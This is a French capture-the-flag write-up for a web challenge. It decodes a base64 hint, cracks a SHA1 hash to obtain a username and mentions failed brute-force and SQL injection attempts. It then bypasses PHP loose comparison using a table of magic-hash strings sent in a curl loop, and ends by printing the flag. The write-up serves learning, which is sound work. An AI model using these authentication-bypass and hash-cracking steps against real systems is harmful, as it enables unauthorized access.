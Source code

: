 * * *
# La porte du couvent
> (Web, 400 points )
---
## Challenge :
> Dans leur élan pour secourir les dernières victimes du célèbre Gayeman DJAKPATAGLO, les cyber-amazones font face à la porte d'un couvent impénétrable. http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html

En accédant au lien du challenge, on se voit présenter un formulaire.

<img src="Images/porte-couvent-1.png">

On remarque que, peu importe ce qu'on entre dans le champ  ```username``` et ```password```, on est redirigé sur une **URL** nous présentant une chaîne encodée en base64: **dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ==** . Pour décoder cette chaîne, il suffira d'exécuter la commande ci-dessous :
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# base64 -d <<< "dm91cyBuJ8OqdGVzIHBsdXMgbG9pbiBkdSBsb2dpbjogZTc3OTFlY2U5ZGE1YTZlM2YwYWE2YmE3NzUzNmZiYzZiNzc4MDg5NQ=="
vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895
```
La chaîne décodée est : **vous n'êtes plus loin du login: e7791ece9da5a6e3f0aa6ba77536fbc6b7780895**. Ce message nous présente à la fin un hash. L'objectif serait maintenant de chercher à avoir le contenu du hash. Pour le faire, nous utiliserons un célèbre outil ```buster``` (https://github.com/s0md3v/Hash-Buster) , qui pourra nous aider à obtenir le contenu du ```hash```. 
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# buster -s "e7791ece9da5a6e3f0aa6ba77536fbc6b7780895"
_  _ ____ ____ _  _    ___  _  _ ____ ___ ____ ____
|__| |__| [__  |__|    |__] |  | [__   |  |___ |__/
|  | |  | ___] |  |    |__] |__| ___]  |  |___ |  \  v3.0

[!] Hash function : SHA1
amazone

```
En un rien de temps, nous obtenons la chaîne se retrouvant derrière le ```hash``` : **amazone**.  
Cette chaîne obtenue représente donc notre ```login``` pour le formulaire de la page http://hackerlab.bj:8001/web03/web03_frjofjzefzf.html. L'objectif suivant serait maintenant de retrouver le ```mot de passe``` qui va avec ce ```login```. Pour l'obtenir, nous avions testé un **bruteforce** par **"POST"** sur le formulaire avec le célèbre outil ```hydra```, mais sans succès. Nous avions aussi essayé une **injection SQL** pour bypasser l'authenfication, mais sans succès aussi. En fin de compte, nous avions donc cherché à avoir un coup de main en cliquant sur le ```hint``` du challenge. L'indice dévoilé est en effet : **php type struggle**. Des recherches effectuées à partir de cet indice nous amène sur cette page https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling. Cette page parle du **PHP Juggling type and magic hashes**. Méthode pouvant permettre de ```bypasser des comparaisons en php```. En fouillant un peu la page, on retrouve quelques extraits de **chaînes de caractères magiques** pouvant bypasser des comparaisons php utilisant ```==```.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)


Nous allons donc essayer ses différents **“Magic” Number / String** comme ```password``` pour voir le résultat.
```console 
root@Y3HW3_Hack3r:~/HackerLab2019# for i in {"240610708","10932435112","10885164793773","34250003024812","34250003024812"}; do curl -X POST http://hackerlab.bj:8001/web03/loginform.php --data "username=amazone&password=$i"; echo " -- "; done
Flag: CTF_NOMDEHACKERCEQUETUESFORT -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
Essaie encore. Une cyber-amazone n'abandonne jamais! -- 
```
<!-- En testant le premier **“Magic” Number / String** ( **240610708** ) comme ```password```, on obtient notre ```flag```. -->

```Flag ```: **CTF_NOMDEHACKERCEQUETUESFORT**
